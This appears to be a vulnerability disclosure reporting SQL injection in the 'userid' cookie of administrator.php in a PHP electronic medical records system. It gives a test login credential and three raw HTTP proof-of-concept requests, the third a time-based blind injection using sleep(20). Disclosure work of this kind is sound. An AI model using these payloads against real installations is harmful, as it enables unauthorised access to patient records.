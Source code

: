# Electronic Medical Records System v1.0 by Patrick Mvuma has SQL injection

BUG_Author: lcg22266

User Login Credential: test@clinic.com/1234554321

vendors:https://www.sourcecodester.com/php/13475/electronic-medical-records-system-emr.html

Vulnerability File: /clinic/administrator.php

Vulnerability location: Cookie parameter 'userid'

Payload1:Cookie: userid=1234554321'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm

```
GET /clinic/administrator.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: userid=1234554321'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

sql statement error

![image](https://github.com/lcg-22266/bug_pic/blob/main/error.png)

Payload2:Cookie: userid=1234554321''; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm

```
GET /clinic/administrator.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: userid=1234554321''; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

correct page

![image](https://github.com/lcg-22266/bug_pic/blob/main/right.png)

Payload3:Cookie: userid=1234554321'%2b(select*from(select(sleep(20)))a)%2b'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm

```
GET /clinic/administrator.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: userid=1234554321'%2b(select*from(select(sleep(20)))a)%2b'; useremail=test%40clinic.com; login=18-02-2023%2010%3A35%3A34%20AM; user=6; PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close
```

The server response time is 20 seconds

![image](https://github.com/lcg-22266/bug_pic/blob/main/sleep.png)

